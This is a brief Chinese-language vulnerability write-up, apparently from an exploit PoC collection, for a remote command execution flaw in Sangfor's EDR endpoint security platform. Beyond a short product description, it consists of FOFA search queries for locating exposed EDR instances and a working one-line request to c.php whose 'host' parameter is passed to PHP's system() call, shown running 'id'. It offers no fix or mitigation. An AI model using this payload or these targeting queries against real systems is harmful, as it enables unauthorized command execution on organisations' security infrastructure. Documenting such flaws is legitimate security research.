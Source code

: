 # 深信服EDR平台存在远程命令执行漏洞

# 一、漏洞简介
 深信服终端检测响应平台EDR,通过云网端联动协同、威胁情报共享、多层级响应机制,帮助用户快速处置终端安全问题,构建轻量级、智能化、响应快的下一代终端安全系统。深信服终端监测响应平台（EDR）存在远程命令执行漏洞。

# 二、影响版本
+ 深信服EDR

# 三、资产测绘
+ fofa`<font style="color:rgba(0, 0, 0, 0.9);">app="SANGFOR-EDR"</font>``<font style="color:rgba(0, 0, 0, 0.9);">title="终端检测响应平台"</font>`

![1716179568863-6a3ef6e1-44be-4250-a0b9-6e869186adc6.png](./img/SSNDnO_IRu30np4k/1716179568863-6a3ef6e1-44be-4250-a0b9-6e869186adc6-578437.png)

# 四、漏洞复现
```plain
/tool/log/c.php?strip_slashes=system&host=id
```

![1716179905089-bcaa2ab3-5127-42cb-8f89-09f79a843007.png](./img/SSNDnO_IRu30np4k/1716179905089-bcaa2ab3-5127-42cb-8f89-09f79a843007-377633.png)



> 更新: 2024-05-23 13:32:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bw1hyzgtaebgmp4x>